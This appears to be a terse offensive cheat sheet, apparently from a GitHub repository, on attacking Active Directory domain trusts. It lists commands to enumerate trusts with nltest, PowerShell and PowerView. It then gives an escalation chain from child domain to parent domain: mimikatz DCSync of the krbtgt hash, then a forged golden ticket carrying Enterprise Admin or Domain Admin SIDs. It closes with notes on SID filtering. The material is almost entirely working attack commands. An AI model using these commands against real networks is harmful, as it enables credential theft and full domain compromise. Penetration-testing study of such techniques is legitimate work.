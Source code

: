 * cmd
```
nltest /trusted_domains
```
* powershell
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
* powerview
```
Get-DomainTrust -API or Get-DomainTrust -NET
Get-DomainTrustMapping
Get-DomainForeignGroupMember -Domain [target domain]
```

## Bidirectional Parent/Child -- sids
```
PowerShell Get-DomainGroup -Identity 'Domain Admins' -Domain [parent domain] | select ObjectSid
Shell whoami /user
lsadump::dcsync /user:krbtgt /domain:[child]
kerberos::golden /user:Administrator /domain:[child domain] /sid:[child domain] /sids:[parenet domain]-512 or 519 /krbtgt:[child domain] /ticket:test.kirbi
```

* powerview
```
Get-DomainSID -Domain [domain]
```
## SID filtering
```
Get-DomainTrust -Domain [target domain]
netdom trust [From] /d:[To] /enablesidhistory:yes  (This will add TREAT_AS_EXTERNAL to TrustAttributes)
```
* Need to find a custom group in domain local security groups and change sids to this group
```
Get-DomainGroupMember -Identity "Administrators" -Domain [target domain]
```
